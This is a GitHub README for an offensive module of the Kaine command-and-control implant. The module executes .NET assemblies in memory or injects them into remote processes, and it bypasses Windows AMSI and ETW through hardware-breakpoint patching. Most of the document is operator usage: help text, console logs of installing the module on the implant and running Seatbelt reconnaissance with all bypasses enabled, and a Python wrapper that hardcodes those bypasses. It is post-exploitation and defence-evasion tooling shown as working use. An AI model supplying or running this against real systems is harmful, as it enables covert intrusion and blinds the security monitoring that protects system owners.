


# kaine-assembly 

a demo module for the kaine agent to execute and inject assembly modules 

### Preview 




### Help 
```
[28-Aug-24 21:30:09] Kaine >>> assembly --help
usage: assembly [-h] [--install] [--uninstall] [--list] [--unload UNLOAD]
                [--list-versions] [--version VERSION]
                {execute,inject} ...

assembly execution and injection module

positional arguments:
  {execute,inject}   assembly commands
    execute          inline/in-process execution of assembly files
    inject           remote process assembly injection command

options:
  -h, --help         show this help message and exit
  --install          install the assembly extension to the kaine implant
  --uninstall        uninstall the assembly extension from the kaine implant
  --list             list loaded app domains and assemblies
  --unload UNLOAD    unload specified app domain and it's loaded assemblies
  --list-versions    list available and installed CLR versions
  --version VERSION  use specific CLR version to list app domains and
                     assemblies (default: get the first installed runtime
                     version)

example usage:
  assembly execute --file /opt/Seatbelt.exe --arguments="-group=all -full"
  assembly inject 1337 --file /opt/Seatbelt.exe --arguments="-group=all -full"
  assembly --list-versions
  assembly --list


[28-Aug-24 21:30:33] Kaine >>> assembly inject --help
usage: assembly inject [-h] [--file FILE] [--arguments ARGUMENTS]
                       [--appdomain APPDOMAIN] [--random-appdomain]
                       [--bypass-amsi] [--bypass-etw] [--bypass-all]
                       [--version VERSION] [--pipe PIPE]
                       pid

positional arguments:
  pid                   process id to inject assembly to

options:
  -h, --help            show this help message and exit
  --file FILE           assembly file to inject and execute
  --arguments ARGUMENTS
                        argument's to pass to the assembly file
  --appdomain APPDOMAIN
                        app domain to use (default app domain is going to get
                        used if not specified)
  --random-appdomain    generate a random name for the app domain
  --bypass-amsi         use hardware breakpoints to patch amsi
  --bypass-etw          use hardware breakpoints to patch etw
  --bypass-all          use hardware breakpoints to patch etw & amsi
  --version VERSION     use specific CLR version to execute assembly (default:
                        get the first installed runtime version)
  --pipe PIPE           named pipe to use for pipe back the output (default:
                        random name gets generated)


[28-Aug-24 21:30:36] Kaine >>> assembly execute --help
usage: assembly execute [-h] [--file FILE] [--arguments ARGUMENTS]
                        [--appdomain APPDOMAIN] [--random-appdomain]
                        [--bypass-amsi] [--bypass-etw] [--bypass-all]
                        [--version VERSION] [--keep-loaded] [--invoke INVOKE]

options:
  -h, --help            show this help message and exit
  --file FILE           assembly file to execute
  --arguments ARGUMENTS
                        argument's to pass to the assembly file
  --appdomain APPDOMAIN
                        app domain to use (default app domain is going to get
                        used if not specified)
  --random-appdomain    generate a random name for the app domain
  --bypass-amsi         use hardware breakpoints to patch amsi
  --bypass-etw          use hardware breakpoints to patch etw
  --bypass-all          use hardware breakpoints to patch etw & amsi
  --version VERSION     use specific CLR version to execute assembly (default:
                        get the first installed runtime version)
  --keep-loaded         should the assembly and domain specified be kept in
                        memory after execution (by default it is going to be
                        released and freed)
  --invoke INVOKE       invoke already loaded assembly

```

### Invoke already loaded assemblies from appdomain 

```
[28-Aug-24 21:24:17] Kaine >>> assembly --install 
[28-Aug-24 21:24:17] [*] (79132d0b) install assembly execution and injection module
[28-Aug-24 21:24:21] [+] send tasks to agent [12349 bytes]
[28-Aug-24 21:24:21] [+] (79132d0b) successfully installed assembly module

[28-Aug-24 21:24:31] Kaine >>> assembly --list 
[28-Aug-24 21:24:31] [*] (8750ae4e) list loaded app domains and assemblies
[28-Aug-24 21:24:36] [+] send tasks to agent [70 bytes]
[28-Aug-24 21:24:36] [*] listing app domains and loaded assemblies:

   [DefaultDomain]:
      - mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089

[28-Aug-24 21:24:36] [+] (8750ae4e) successfully executed command

[28-Aug-24 21:25:34] Kaine >>> assembly execute --file /opt/SharpCollection/NetFramework_4.0_x64/Seatbelt.exe --arguments='antivirus' --bypass-all --keep-loaded --random-appdomain
[28-Aug-24 21:25:34] [*] random app domain is going to be used: iyprqv
[28-Aug-24 21:25:34] [!] no runtime version specified (first installed runtime version is going to be used)
[28-Aug-24 21:25:34] [*] enable hardware breakpoint hooking bypass for etw & amsi
[28-Aug-24 21:25:34] [*] (55d50347) execute .NET assembly file: /opt/SharpCollection/NetFramework_4.0_x64/Seatbelt.exe (607232 bytes)
[28-Aug-24 21:25:36] [+] send tasks to agent [607350 bytes]
[28-Aug-24 21:25:36] [+] output of executed assembly [1774 bytes]:


                        %&&@@@&&                                                                                  
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%                         
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################                        
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*                         
                        &%%&&&%%%%%        v1.2.2         ,(((&%%%%%%%%%%%%%%%%%,                                 
                         #%%%%##,                                                                                 


====== AntiVirus ======

  Engine                         : Windows Defender
  ProductEXE                     : windowsdefender://
  ReportingEXE                   : %ProgramFiles%\Windows Defender\MsMpeng.exe


[*] Completed collection in 0,029 seconds


[28-Aug-24 21:25:36] [+] (55d50347) successfully executed command

[28-Aug-24 21:25:43] Kaine >>> assembly --list
[28-Aug-24 21:25:43] [*] (a7285f5) list loaded app domains and assemblies
[28-Aug-24 21:25:46] [+] send tasks to agent [70 bytes]
[28-Aug-24 21:25:46] [*] listing app domains and loaded assemblies:

   [DefaultDomain]:
      - mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
   [iyprqv]:
      - mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
      - Seatbelt, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
      - System.Core, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
      - System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
      - System.Management, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a

[28-Aug-24 21:25:47] [+] (a7285f5) successfully executed command

[28-Aug-24 21:27:02] Kaine >>> assembly execute --appdomain iyprqv --invoke Seatbelt --arguments='antivirus' --bypass-all
[28-Aug-24 21:27:02] [*] custom app domain is going to be used: iyprqv
[28-Aug-24 21:27:02] [!] no runtime version specified (first installed runtime version is going to be used)
[28-Aug-24 21:27:02] [*] enable hardware breakpoint hooking bypass for etw & amsi
[28-Aug-24 21:27:02] [*] (12ec794d) execute already loaded .NET assembly: Seatbelt
[28-Aug-24 21:27:06] [+] send tasks to agent [136 bytes]
[28-Aug-24 21:27:07] [+] output of executed assembly [1774 bytes]:


                        %&&@@@&&                                                                                  
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%                         
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################                        
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*                         
                        &%%&&&%%%%%        v1.2.2         ,(((&%%%%%%%%%%%%%%%%%,                                 
                         #%%%%##,                                                                                 


====== AntiVirus ======

  Engine                         : Windows Defender
  ProductEXE                     : windowsdefender://
  ReportingEXE                   : %ProgramFiles%\Windows Defender\MsMpeng.exe


[*] Completed collection in 0,002 seconds


[28-Aug-24 21:27:07] [+] (12ec794d) successfully executed command

[28-Aug-24 21:28:09] Kaine >>> assembly --unload iyprqv
[28-Aug-24 21:28:09] [*] (4ba85418) unloading app domain: iyprqv
[28-Aug-24 21:28:12] [+] send tasks to agent [88 bytes]
[28-Aug-24 21:28:12] [+] unloaded app domain: iyprqv
[28-Aug-24 21:28:12] [+] (4ba85418) successfully executed command

[28-Aug-24 21:28:17] Kaine >>> assembly --list
[28-Aug-24 21:28:17] [*] (a4082653) list loaded app domains and assemblies
[28-Aug-24 21:28:22] [+] send tasks to agent [70 bytes]
[28-Aug-24 21:28:22] [*] listing app domains and loaded assemblies:

   [DefaultDomain]:
      - mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089

[28-Aug-24 21:28:22] [+] (a4082653) successfully executed command
```

### Extend module by writing wrapper commands for assemblies 

```py
class AssemblySeatbelt( HcKaineCommand ):

    def __init__( self, *args, **kwargs ):
        super().__init__( *args, **kwargs )

        self.command       = "seatbelt"
        self.description   = "executing seatbelt through the assembly module"
        self.seatbelt_path = '/opt/SharpCollection/NetFramework_4.0_x64/Seatbelt.exe'

        return

    def arguments(
        self
    ):
        self.parser.epilog = (
            "example usage:\n"
            "  seatbelt antivirus\n"
        )

        # create the top-level parser
        self.parser.add_argument( 'COMMANDS', help="commands to pass to seatbelt.exe" )

    async def execute( self, args ):
        kaine  : HcKaine        = self.agent()
        dotnet : AssemblyModule = kaine.command( 'assembly' )

        if dotnet is None: 
            self.log_error( 'assembly command has not been registerd' )
            return

        ##
        ## check if object file exists
        ##
        if exists( self.seatbelt_path ) is False:
            self.log_error( f"seatbelt file not found: {self.seatbelt_path}" )
            return

        ##
        ## read object file from disk
        ##
        seatlbelt = file_read( self.seatbelt_path )
        
        task = await dotnet.assembly_execute( 
            assembly    = seatlbelt,
            arguments   = args.COMMANDS,
            app_domain  = 'GhostPackDomain',
            bypass_amsi = True,
            bypass_etw  = True
        )

        uuid = format( task.task_uuid(), 'x' )

        self.log_info( f"({uuid}) inline execute seatbelt.exe: {args.COMMANDS}" )

        try: 
            hresult, output = await task.result();

            if hresult == 0:
                if len( output ) > 0: 
                    self.log_good( f"output of seatbelt.exe [{ len( output ) } bytes]:" )
                    self.log_raw( f"\n{ output }" )
                else: 
                    self.log_warning( "no output received from executed assembly" )
            else:
                self.log_error( f"failed to invoke dotnet stub: {hresult:x} { self.error_reason(hresult) }" )
        except Exception as e:
            self.log_error( f"({uuid}) failed to execute command: {e}" )
            return

        self.log_good( f"({uuid}) successfully executed command" )

        return
```

### Note

This is a public implementation of the assembly execution module used for future community use.
Consider this provided as it is and no additional features going to be introduced and or added.  

### Credits and Reference 

This project mainly based on other peoples work. I take no credit for anything provided in this project. 

- [InlineExecute-Assembly](https://github.com/anthemtotheego/InlineExecute-Assembly) by [anthemtotheego](https://x.com/anthemtotheego)
- [inject-assembly](https://github.com/kyleavery/inject-assembly) by [kyleavery](https://x.com/kyleavery_)
- [Dylan Tran](https://x.com/d_tranman) for helping me as well. 
- Github search. last but not least thanks to github for allowing me to search for function and COM related useage that i couldnt find officially documented (perhaps i did it poorly). 